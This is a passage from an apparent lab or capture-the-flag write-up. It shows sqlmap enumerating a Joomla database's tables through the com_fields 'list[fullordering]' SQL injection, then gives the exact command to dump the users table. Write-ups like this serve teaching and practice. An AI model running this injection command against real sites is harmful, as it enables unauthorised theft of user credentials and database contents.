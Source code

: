 ```text
[21:31:46] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Windows; U; Windows NT 6.1; ro; rv:1.9.2.10) Gecko/20100914 Firefox/3.6.10' from file '/usr/share/sqlmap/data/txt/user-agents.txt'
[21:31:46] [INFO] resuming back-end DBMS 'mysql'
[21:31:46] [INFO] testing connection to the target URL
<SNIP>
Database: joomla
[72 tables]
+----------------------------+
| #__assets                  |
| #__associations            |
| #__banner_clients          |
| #__banner_tracks           |
| #__banners                 |
| #__categories              |
| #__contact_details         |
| #__content_frontpage       |
<SNIP>
| #__updates                 |
| #__user_keys               |
| #__user_notes              |
| #__user_profiles           |
| #__user_usergroup_map      |
| #__usergroups              |
| #__users                   |
| #__utf8_conversion         |
| #__viewlevels              |
+----------------------------+

[*] ending @ 21:31:57 /2021-02-22/
```

We have 72 tables from the Joomla database. My eyes are drawn straight to the users one, let's hope we can get usernames and passwords from it:

```text
root@kali:/home/kali# sqlmap -u "http://10.10.96.177/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] --threads 10 -D joomla -T "#__users" --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.5#stable}
 |_ -| . ["]     | .'| . |
 |___|_  [.]_|_|_|__,|  _|
       |_|V...       |_|   http://sqlmap.org

[*] starting @ 21:34:44 /2021-02-22/

[21:34:56] [INFO] fetching columns for table '#__users' in database 'joomla'
[21:34:56] [WARNING] unable to retrieve column names for table '#__users' in database 'joomla'
do you want to use common column existence check? [y/N/q] y
[21:35:08] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
which common columns (wordlist) file do you want to use?
[1] default '/usr/share/sqlmap/data/txt/common-columns.txt' (press Enter)
[2] custom
>
[21:36:36] [INFO] checking column existence using items from '/usr/share/sqlmap/data/txt/common-columns.txt'
[21:36:36] [INFO] adding words used on web page to the check list
[21:36:36] [INFO] starting 10 threads
[21:36:36] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[21:36:36] [WARNING] if the problem persists please try to lower the number of used threads (option '--threads')
```
